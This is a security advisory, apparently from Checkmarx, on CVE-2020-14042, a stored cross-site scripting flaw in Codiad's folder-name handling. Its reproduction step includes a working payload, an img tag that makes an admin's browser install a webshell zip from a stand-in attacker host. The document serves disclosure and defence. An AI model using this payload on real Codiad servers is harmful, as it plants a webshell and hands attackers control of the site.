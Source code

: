 ```yaml
---
title: Stored XSS via folder name in Codiad
date: 2020-08-20
tags:
	- "php"
	- "xss"
	- "rce"
	- "webshell"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4278/
cves:
	- "CVE-2020-14042"
---
```

## Summary
A Cross Site Scripting (XSS) vulnerability was found in Codiad. The vulnerability occurs due to improper sanitization of the folder’s name, the `$path` variable in `components/filemanager/class.filemanager.php`.

## Product
Codiad from v1.7.8.

## Impact
An attacker could run arbitrary Javascript code on the users, chaining this vulnerability with another one, an RCE vulnerability could be achieved.

## Steps to reproduce
1. Login to codiad
2. Create a folder and name it with html element
3. The following example running on an admin will result in a webshell:```<img width=1 height=1 src=components/market/controller.php?action=install&type=&name=Manually&repo=http://evilWebSite/webshell/webshell.zip?a=>```

### Expected result:
The html element is running when viewing the folder name.

## Remediation
There is no fixed version of Codiad.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Issue](https://github.com/Codiad/Codiad/issues/1122)

